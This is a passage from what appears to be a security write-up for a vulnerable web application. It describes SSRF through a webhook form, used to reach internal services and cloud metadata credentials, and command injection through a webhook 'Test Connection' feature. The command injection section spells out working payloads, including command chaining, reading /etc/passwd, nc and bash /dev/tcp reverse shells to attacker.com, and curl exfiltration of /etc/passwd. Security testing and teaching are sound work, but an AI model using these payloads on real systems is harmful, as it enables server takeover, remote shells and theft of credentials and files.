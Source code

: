 4. **Attack Vectors:**

   **Through Webhook Notification Form:**
   - Use "Send Webhook Notification" feature
   - Enter internal URL in the webhook URL field
   - Select GET or POST method
   - Submit to probe internal services

**Attack Scenarios:**
- **Internal API Access:** Read sensitive data from internal microservices
- **Cloud Credential Theft:** Extract AWS/GCP/Azure credentials from metadata services
- **Internal Network Mapping:** Discover internal services and infrastructure
- **Bypass Security Controls:** Access services protected by firewalls

**Impact:**
- Access to internal services and sensitive APIs
- Cloud infrastructure compromise through metadata access
- Internal network reconnaissance and mapping
- Bypass of network security controls and firewalls

---

### 5. Command Injection - Webhook Service

**Vulnerability Details:**
The webhook connection testing feature executes shell commands with user-supplied input, allowing attackers to execute arbitrary system commands on the server.

**Exploitation via Frontgate Interface:**

1. **Access Command Injection Point:**
   - Login to the application
   - Navigate to Webhooks page (`/webhooks`)
   - Use the "Test Connection" feature

2. **Basic Command Injection:**
   - **Command Chaining:** `google.com; whoami`
   - **Command Substitution:** `google.com $(cat /etc/passwd)`
   - **Multiple Commands:** `google.com && ls -la /`
   - **Background Execution:** `google.com & nc -e /bin/bash attacker.com 4444`

3. **Advanced Exploitation Techniques:**

   **Reverse Shell Establishment:**
   ```
   google.com; bash -i >& /dev/tcp/attacker.com/4444 0>&1
   ```

   **File System Exploration:**
   ```
   google.com; find / -name "*.conf" -type f 2>/dev/null
   ```

   **Data Exfiltration:**
   ```
   google.com; cat /etc/passwd | curl -X POST -d @- http://attacker.com/data
   ```
